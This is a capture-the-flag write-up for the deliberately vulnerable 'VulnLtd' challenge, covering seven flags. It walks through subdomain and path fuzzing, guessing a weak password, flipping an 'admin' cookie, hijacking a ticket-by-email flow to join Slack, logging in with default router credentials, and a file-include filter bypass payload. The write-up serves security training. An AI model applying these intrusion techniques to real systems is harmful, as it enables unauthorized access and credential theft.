




# VulnLtd

http://www.vulnltd.co.uk/ - 7 flags to find


So this is the front page, not a lot, no custom js just jQuery and Bootstrap and a link to a contact page.

Which has a form


Which when you submit the form we get a message back saying

```
Your slack token has expired
```

Note there's nothing in the request that looks like a token

```
POST /contact HTTP/1.1
Host: www.vulnltd.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://www.vulnltd.co.uk
Connection: close
Referer: http://www.vulnltd.co.uk/contact
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1

name=sss&email=sss&message=ssss
```

OK fine lets start the usual enumeration starting with any subdomains we might find.

Nothing with assetfinder

```
└─$ assetfinder -subs-only vulnltd.co.uk
vulnltd.co.uk
vulnltd.co.uk
vulnltd.co.uk
```

So lets use the subdomain wordlist. And..... I get a hit with support.vulnltd.co.uk

Which gives me some support ticket search form



Which just tells me could not find ticket when it's submitted, this is the request which gets sent

```
POST / HTTP/1.1
Host: support.vulnltd.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://support.vulnltd.co.uk
Connection: close
Referer: http://support.vulnltd.co.uk/
Cookie: ctfchallenge=xxx
Upgrade-Insecure-Requests: 1

ticket_ref=sss
```

OK I'm going to leave this for now and come back to it. Time to do some content discovery with fuzzing on www.vulnltd.co.uk/FUZZ

And yup get a hit with robots.txt

```
User-agent: *
Disallow: /secr3t_l0g1n/


# [^FLAG^XXX^FLAG^]
```

Flag 1 :). The secret path takes me through to this login form


The docs give me some info to look at


OK so lets login to the CMS as guest with a password which is probably monday-sunday :D

And yes, 'tuesday' gets me in



Clicking on one of the links which takes the format /page/x (where x is a number) just tells me

```
Guest users cannot edit pages
```

I have a similar issue if I click on the new page link

```
Guest users cannot create pages
```

And trying to sign in to the slack workspace with my own account just tells me no


However... look at this cookie!


Change it to true and I get another flag (no. 2) when I refresh the page :)


I can now edit and create pages, having a look at the draft contact page I can spot some PHP code at the top which is interesting

```php
<?php
/**
 * We've dropped slack for receiving contact messages for the website and we're only going to use it for company communications only.
 * This will now send an to email start-ticket@vulnltd.co.uk which will create a support ticket which links in with our support desk app.
 */
$sent_message = false;
$message_error = false;
if( isset($_POST["name"],$_POST["email"],$_POST["message"]) ){
    $sent_message = true;
    try{
        $message = \Model\Email::send('start-ticket@vulnltd.co.uk',$_POST["email"], 'Support Message', 'Name: '.$_POST["name"].' Message: '.$_POST["message"]  );
    }catch (Exception $e ){
        $message_error = 'Error sending Email';
    }
}
?>
```

Tried sending an email from my gmail to this address thinking I might get an email back with some reference, but nothing...

Also if I try to update the contents of the page I get the message

```
Web service does not have writable access to that directory
```

Same message when trying to create a new page. 

There's nothing obvious in the request which could indicate I can control the directory eg.

```
POST /secr3t_l0g1n/page/new HTTP/1.1
Host: www.vulnltd.co.uk
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://www.vulnltd.co.uk
Connection: close
Referer: http://www.vulnltd.co.uk/secr3t_l0g1n/page/new
Cookie: ctfchallenge=xxx=; token=80e779b9be92a08349c06ed7b2fd9d22; user_id=2; admin=true
Upgrade-Insecure-Requests: 1

name=testing&url=%2Ftesting&html=%3Ch1%3Ehi%3C%2Fh1%3E
```

Removing the name parameter from the request does appear to remove the error message but there is also no sign of a success either. Inserting path traversal strings as a value for name still results in the same error message.

The paths available to us under /secr3t_l0g1n are as follows

- /docs
- /page/1
- /page/2
- /page/3
- /page/new

Also interesting is we have a cookie called 'user_id', which is set to 2 after signing in as guest. Removing the cookie will prompt a redirect to the login page, but the value can be blank or seemingly any other value and it will still serve the same pages....

I might be done here, time to turn my focus back to the support subdomain.

So quick reminder the support page has a form which takes a parameter called ticket_ref, we don't know of any tickets or even the format of the reference to fuzz it.

Tried a fuzz on http://support.vulnltd.co.uk/FUZZ, nothing interesting

- /css/
- /js/

Hmmm emailing 'start-ticket@vulnltd.co.uk' felt like it was going to give me something!?!

So another evening and another look at this, send an email again and today I get a response! A glitch in the system which looks to have been fixed


Finally have flag 3 :). This is what I can see at the link


Sending an email to that address does indeed show new updates in the table. Sooo ummm remember the slack channel? Evil thoughts >:)


And they've sent an email to that address


And here it is in our support ticket list :)


I click on the button in the email to confirm, choose an account name/password and sign in. Then I have flag 4 :)


OK so there's also a message from admin with another lead to follow



Go to that page, it sends me to a router login page


Quick google on the make/model of the router and the default creds are

- username: admin
- password: microbusiness

And surprise surprise they haven't been changed, I'm in :)



Flag no.5 complete

All the links apart from config give the 500 error, config downloads a .bak file with some base64 in it :)

```
eyJ3YW4iOnsidHlwZSI6ImFkc2wiLCJpc3AiOnsiaXAiOiJkaGNwIiwidXNlcm5hbWUiOiIwOTczMjgzNzk5OUBkc2xuZXQiLCJwYXNzd29yZCI6ImQzRnBQbzVldyJ9fSwibGFuIjp7ImlwIjoiMTkyLjE2OC4xLjEiLCJzdWJuZXQiOiIyNTUuMjU1LjI1NS4wIn0sImZpcmV3YWxsIjp7ImFjdGl2ZSI6dHJ1ZX0sIm1haW50ZW5hbmNlIjp7ImFkbWluX3VzZXIiOiJhZG1pbiIsImFkbWluX3Bhc3MiOiJtaWNyb2J1c2luZXNzIiwiZW5hYmxlX29uX3dhbiI6dHJ1ZSwiaHR0cF9wb3J0Ijo4MH0sIndlYnNpdGVzIjpbeyJhY3RpdmUiOnRydWUsIm5hbWUiOiJcL2ludHJhbmV0IiwicHJvdGVjdGVkIjp7InR5cGUiOiJiYXNpY19hdXRoIiwidXNlcm5hbWUiOiJpbnRlcm5ldCIsInBhc3N3b3JkIjoiNGdIMmtPOWUxY0U1M01rIn19XSwiZmxhZyI6IlteRkxBR15GNEFDOTQ3OEI3MUVBMDU2QTFCMkRFMERGODI0QUM2MV5GTEFHXl0ifQ==
```

Put it through the decoder and we get

```
{"wan":{"type":"adsl","isp":{"ip":"dhcp","username":"09732837999@dslnet","password":"d3FpPo5ew"}},"lan":{"ip":"192.168.1.1","subnet":"255.255.255.0"},"firewall":{"active":true},"maintenance":{"admin_user":"admin","admin_pass":"microbusiness","enable_on_wan":true,"http_port":80},"websites":[{"active":true,"name":"\/intranet","protected":{"type":"basic_auth","username":"internet","password":"4gH2kO9e1cE53Mk"}}],"flag":"[^FLAG^xxxx^FLAG^]"}
```

Flag 6 :). Just one more to go...

In the background whilst looking at this page I was doing some fuzzing with the content wordlist on http://159.65.18.92/FUZZ

Everything I found was already in the list of links in the admin page, apart from one thing

- intranet

Let's try it :). And it wants me to log in 


Well this is basic auth so let's use the username/pwd from above internet/4gH2kO9e1cE53Mk

OK yet another page


Another password!


OK so look at the previous page with the page parameter ```http://159.65.18.92/intranet/index.php?page=home.html```

Changing the value to xxx.html, tells me page not found, so lets fuzz that i.e. ```http://159.65.18.92/intranet/index.php?page=FUZZ.html```

OK only home worked. I didn't spot something earlier, the HTML has the following comment in it

```html
    !!! Security module for including page templates !!!

    Make sure REQUEST_URI ends in .html
    Replace any characters that are not the following "a-zA-Z0-9." in $_GET["page"]
    Filter out index.php for security in $_GET["page"]
    Filter out admin.php for security in $_GET["page"]
    Check template exists "home.html"
    Template Found
    Loading "home.html"
```

And it varies slightly when it can't find a template

```html
    !!! Security module for including page templates !!!

    Make sure REQUEST_URI ends in .html
    Replace any characters that are not the following "a-zA-Z0-9." in $_GET["page"]
    Filter out index.php for security in $_GET["page"]
    Filter out admin.php for security in $_GET["page"]
    Check template exists "xxx.html"
    Template not found switching to "error.html"
    Loading "error.html"
 ```

 OK so I might be able to beat this filter and include the source of the admin page perhaps (as I don't have the password)

 So 
 ```
 http://159.65.18.92/intranet/index.php?page=admin.php.html
 ```

 Gives 

```
Check template exists ".html"
Template not found switching to "error.html"
Loading "error.html"
```

And this

```
http://159.65.18.92/intranet/index.php?page=adadmin.phpmin.php.html
```

Gives

```
Check template exists "admin.php.html"
Template not found switching to "error.html"
Loading "error.html"
```

OK small tweak to

```
http://159.65.18.92/intranet/index.php?page=adadmin.phpmin.php&.html
```

And I get the following back in the response :) last flag :D

```php
<?php if( isset($_POST["password"]) && strtoupper(md5($_POST["password"])) == '3A640F988687C7352DC72F895AA791C1' ){ ?>

    <h2>Download Files</h2>
    <h4>[^FLAG^AD07238C44C1E92FA90B7363027F91D6^FLAG^]</h4>

    <strong>No Files to download</strong>

<?php }else{ ?>
    <h2>Please supply a password to get the file list</h2>
    <form method="post" action="/intranet/admin.php">
        <input type="password" name="password">
        <br><br>
        <input type="submit" value="Login">
    </form>
<?php } ?>
```

Challenge complete

